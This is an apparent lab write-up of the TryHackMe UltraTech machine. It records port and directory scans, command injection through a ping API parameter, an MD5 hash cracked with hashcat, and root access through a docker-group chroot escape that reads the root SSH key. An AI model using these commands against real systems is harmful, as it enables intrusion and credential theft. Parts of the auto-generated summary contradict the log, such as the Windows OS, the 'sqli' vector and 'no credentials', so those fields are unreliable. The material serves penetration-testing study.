

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | 21/tcp   open     ftp, 22/tcp   open     ssh, 8081/tcp open     http, 8093/tcp filtered unknown, 21/tcp    open  ftp, 22/tcp    open  ssh |
| Primary Entry Vector      | sqli |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)

```

## Nmap
```
nmap -sV -sT -sC $ip
```

```
┌──(n0z0㉿Smile)-[~]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 20:39 JST
Nmap scan report for 10.10.59.30
Host is up (0.24s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open     http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
8093/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.19 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

https://www.invalidhost.com/tryhackme-ultratech/

https://marcorei7.wordpress.com/2020/08/13/028-ultratech/

初手探索

```
┌──(n0z0㉿Smile)-[~]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 20:39 JST
Nmap scan report for 10.10.59.30
Host is up (0.24s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open     http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
8093/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.19 seconds
```

ポートが少ない気がするから全ポート探索もする

```
┌──(n0z0㉿Smile)-[~]
└─$ nmap -p- -sC -sV -T4 $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 20:39 JST
Nmap scan report for 10.10.59.30
Host is up (0.25s latency).
Not shown: 65248 closed tcp ports (conn-refused), 283 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1407.52 seconds
```

31331がhttpdを提供してたから確認してみる

8081は何もなかった

脆弱性スキャンは特に何も見つからず

```
┌──(n0z0㉿Smile)-[~]
└─$ nikto -h $ip:31331
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.59.30
+ Target Hostname:    10.10.59.30
+ Target Port:        31331
+ Start Time:         2024-08-26 21:06:46 (GMT9)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /robots.txt: contains 1 entry which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ /: Server may leak inodes via ETags, header found with file /, inode: 17cc, size: 584b2b811ebb3, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ ERROR: Error limit (20) reached for host, giving up. Last error: opening stream: can't connect (timeout): Operation now in progress
+ Scan terminated: 20 error(s) and 5 item(s) reported on remote host
+ End Time:           2024-08-26 21:16:50 (GMT9) (604 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

FFuFの結果は下記

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -u http://$ip:31331/FUZZ -recursion -recursion-depth 1 -ic -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.8.48:31331/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 242ms]
[INFO] Adding a new job to the queue: http://10.10.8.48:31331/images/FUZZ

                        [Status: 200, Size: 6092, Words: 393, Lines: 140, Duration: 3283ms]
css                     [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 241ms]
[INFO] Adding a new job to the queue: http://10.10.8.48:31331/css/FUZZ

js                      [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 245ms]
[INFO] Adding a new job to the queue: http://10.10.8.48:31331/js/FUZZ

[INFO] Starting queued job on target: http://10.10.8.48:31331/images/FUZZ

                        [Status: 200, Size: 4168, Words: 208, Lines: 32, Duration: 245ms]
[INFO] Starting queued job on target: http://10.10.8.48:31331/css/FUZZ

                        [Status: 200, Size: 1136, Words: 72, Lines: 18, Duration: 245ms]
[INFO] Starting queued job on target: http://10.10.8.48:31331/js/FUZZ

                        [Status: 200, Size: 1321, Words: 91, Lines: 19, Duration: 243ms]
:: Progress: [141695/141695] :: Job [4/4] :: 163 req/sec :: Duration: [0:14:32] :: Errors: 0 ::
```

gobusterでも探索してみたら見つかった

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ gobuster dir -u http://$ip:31331 -w /usr/share/wordlists/dirb/common.txt -t 15 -x php,html,txt -q
/.php                 (Status: 403) [Size: 292]
/.html                (Status: 403) [Size: 293]
/.hta                 (Status: 403) [Size: 292]
/.hta.php             (Status: 403) [Size: 296]
/.hta.html            (Status: 403) [Size: 297]
/.hta.txt             (Status: 403) [Size: 296]
/.htaccess            (Status: 403) [Size: 297]
/.htaccess.html       (Status: 403) [Size: 302]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.htpasswd.html       (Status: 403) [Size: 302]
/css                  (Status: 301) [Size: 315] [--> http://10.10.8.48:31331/css/]
/favicon.ico          (Status: 200) [Size: 15086]
/images               (Status: 301) [Size: 318] [--> http://10.10.8.48:31331/images/]
/index.html           (Status: 200) [Size: 6092]
/index.html           (Status: 200) [Size: 6092]
/javascript           (Status: 301) [Size: 322] [--> http://10.10.8.48:31331/javascript/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.8.48:31331/js/]
/partners.html        (Status: 200) [Size: 1986]
/robots.txt           (Status: 200) [Size: 53]
/robots.txt           (Status: 200) [Size: 53]
/server-status        (Status: 403) [Size: 301]
/what.html            (Status: 200) [Size: 2534]
```

feroxbusterが早くて便利そう。
しばらく使ってみる

```
feroxbuster -u http://$ip:31331 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E
```

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/UltraTech]
└─$ feroxbuster -u http://$ip:31331 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.4
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.8.48:31331
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.10.4
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       65l      229w     2534c http://10.10.8.48:31331/what.html
200      GET      139l      531w     6092c http://10.10.8.48:31331/index.html
200      GET        1l      661w    19350c http://10.10.8.48:31331/images/undraw_frameworks.svg
200      GET        1l      327w    11819c http://10.10.8.48:31331/images/undraw_hello_aeia.svg
200      GET        1l      178w    19165c http://10.10.8.48:31331/js/app.min.js
200      GET        1l      307w     9407c http://10.10.8.48:31331/images/undraw_selfie.svg
200      GET        4l      328w    24710c http://10.10.8.48:31331/css/style.min.css
200      GET       37l       86w      883c http://10.10.8.48:31331/js/api.js
200      GET        1l      396w     8929c http://10.10.8.48:31331/images/undraw_responsive.svg
200      GET        1l      203w     8500c http://10.10.8.48:31331/images/undraw_designer.svg
200      GET        1l      265w     4599c http://10.10.8.48:31331/images/together.svg
200      GET        1l      931w    18240c http://10.10.8.48:31331/images/undraw_everywhere.svg
200      GET        1l      443w    11824c http://10.10.8.48:31331/images/undraw_creation.svg
200      GET        1l      155w    12953c http://10.10.8.48:31331/images/tet.svg
200      GET        1l      685w    14849c http://10.10.8.48:31331/images/undraw_elements.svg
200      GET        1l      530w    10496c http://10.10.8.48:31331/images/undraw_browser.svg
200      GET       46l      157w     1986c http://10.10.8.48:31331/partners.html
200      GET      206l      773w    77520c http://10.10.8.48:31331/images/evie_default_bg.jpeg
200      GET     1393l     3543w    30017c http://10.10.8.48:31331/css/style.css
200      GET     1463l     4649w    44494c http://10.10.8.48:31331/js/app.js
200      GET      240l     1315w   107517c http://10.10.8.48:31331/images/hero_sm.png
200      GET        1l     2326w    63504c http://10.10.8.48:31331/images/undraw_fans.svg
200      GET      139l      531w     6092c http://10.10.8.48:31331/
200      GET       31l      205w     4168c http://10.10.8.48:31331/images/
200      GET       17l       69w     1136c http://10.10.8.48:31331/css/
200      GET       18l       82w     1321c http://10.10.8.48:31331/js/
[>-------------------] - 33s    11602/3161402 2h      found:26      errors:468
[>-------------------] - 33s     7148/1176245 219/s   http://10.10.8.48:31331/
[####################] - 1s   1176245/1176245 959417/s http://10.10.8.48:31331/js/ => Directory listing
[####################] - 3s   1176245/1176245 362479/s http://10.10.8.48:31331/images/ => Directory listing
[####################] - 1s   1176245/1176245 1162297/s http://10.10.8.48:31331/css/ => Directory listing
[>-------------------] - 16s     2896/882184  176/s   http://10.10.8.48:31331/javascript/             
```

[http://10.10.8.48:31331/js/](http://10.10.8.48:31331/js/)にアクセスしてみるとapiを提供しているっぽい


*Caption: Screenshot captured during ultratech attack workflow (step 1).*

クリックすると下記だった

```
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`

のところを見ると、コマンドを実行してくれそう。

```
view-source:10.10.8.48/ping?ip=/ping?ip=%60ls%60
```


*Caption: Screenshot captured during ultratech attack workflow (step 2).*

```
view-source:10.10.8.48/ping?ip=/ping?ip=%60cat%20utech.db.sqlite%60
```


*Caption: Screenshot captured during ultratech attack workflow (step 3).*

hashを手に入れた

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/UltraTech]
└─$ hashcat hash.txt -m 0 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 Microsoft Surface (R) Edition, 2777/5618 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

f357a0c52799563c7c7b76c1e7543a32:n100906

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: f357a0c52799563c7c7b76c1e7543a32
Time.Started.....: Tue Aug 27 02:11:28 2024 (1 sec)
Time.Estimated...: Tue Aug 27 02:11:29 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3123.6 kH/s (0.27ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5251072/14344384 (36.61%)
Rejected.........: 0/5251072 (0.00%)
Restore.Point....: 5242880/14344384 (36.55%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: n1ckoo -> mz.jaymall

Started: Tue Aug 27 02:11:10 2024
Stopped: Tue Aug 27 02:11:31 2024
```

### OSログイン

SSH成功

```
r00t@ultratech-prod:~$ whoami
r00t
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ cd ..
r00t@ultratech-prod:/home$ ls -la
```

id見るとdockerグループに所属していることが分かった

**特に重要なポイントは、ユーザーが `docker` グループに所属していることです。** `docker` グループに属しているユーザーは、通常、Dockerコマンドをroot権限なしで実行できるため、システム上で特権を得る可能性があります。例えば、Dockerコンテナ内での特権昇格攻撃（Privileged Escalation）が可能となる場合があります。

https://gtfobins.github.io/gtfobins/docker/#shell

alpineって騎西会ったところをbashに変更する

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

変更後

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

秘密鍵を回答する

```
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
#
#
cat: /root.ssh/id_rsa: No such file or directory
[REDACTED_PRIVATE_KEY_HEADER]
[REDACTED_PRIVATE_KEY_MATERIAL]
At this point, we execute the command to turn enumeration findings into a practical foothold. The goal is to obtain either code execution, reusable credentials, or a stable interactive shell. Relevant options are preserved so the step can be repeated exactly during verification.
```bash
cat: /root.ssh/id_rsa: No such file or directory
```
```bash

### id

uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
#
#

### cat /root.ssh/id_rsa

cat: /root.ssh/id_rsa: No such file or directory

### cat /root/.ssh/id_rsa

[REDACTED_PRIVATE_KEY_HEADER]
[REDACTED_PRIVATE_KEY_MATERIAL]
```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```bash
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---



### CVE Notes

- **CVE-2003-1418**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.

## References

- nmap
- rustscan
- ffuf
- gobuster
- nikto
- sudo
- ssh
- cat
- php
- gtfobins
- CVE-2003-1418
